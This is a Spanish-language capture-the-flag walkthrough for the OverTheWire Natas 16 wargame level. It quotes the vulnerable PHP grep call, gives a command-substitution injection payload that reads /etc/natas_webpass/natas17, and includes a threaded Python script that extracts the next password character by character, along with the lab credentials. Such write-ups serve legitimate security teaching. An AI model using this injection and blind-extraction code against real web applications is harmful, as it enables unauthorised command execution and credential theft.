 # Natas 16

#### URL: http://natas16.natas.labs.overthewire.org/
#### Credenciales: natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

Como en niveles anteriores se ejecuta el comando grep con la entrada del usuario como parametro, pero esta vez se filtran mas caracteres y el parametro esta entre comillas
``` php
if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Podemos buscar una llamada a grep con un subcomando y concatenarlo a una palabra existente en el diccionario, por ejemplo:

`$(grep ^algo /etc/natas_webpass/natas17)guilty`

esto busca la coincidencia de la contraseña concatenada con "guilty", por lo que no veremos ninguna palabra valida en la salida, en caso contrario nos devolverá "guilty" como resultado.

EL objetivo es ir obteniendo caracter por caracter de la contraseña con esta técnica, similar al nivel anterior de inyeccion SQL a ciegas. En python puede ser como sigue:

```python
# script.py
# Async version 
import requests
import string
import threading
import base64

book = string.ascii_letters + string.digits
passwd = ""
headers = {'Authorization': f'Basic {base64.b64encode(b"natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo").decode()}'}

def test_char(c):
    global found_char
    payload = f"$(grep ^{passwd + c} /etc/natas_webpass/natas17)guilty"
    x = requests.get(f"http://natas16.natas.labs.overthewire.org/index.php?needle={payload}&submit=Search", headers=headers)
    if "guilty" not in x.text:
        found_char=c

print("Starting attack.")
for i in range(32):
    found_char = None
    threads = []
    for c in book:
        thread = threading.Thread(target=test_char,args=(c,))
        threads.append(thread)
        thread.start()
    for t in threads:
        t.join()
    if found_char:
        passwd+=found_char
        print(f"Found {found_char} at position {i+1}")
    else:
        print("Not character found. Invalid payload.")
        break

print(f"Final password: {passwd}")
```

Ejecutando `python3 script.py` obtenemos EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC.

`natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`


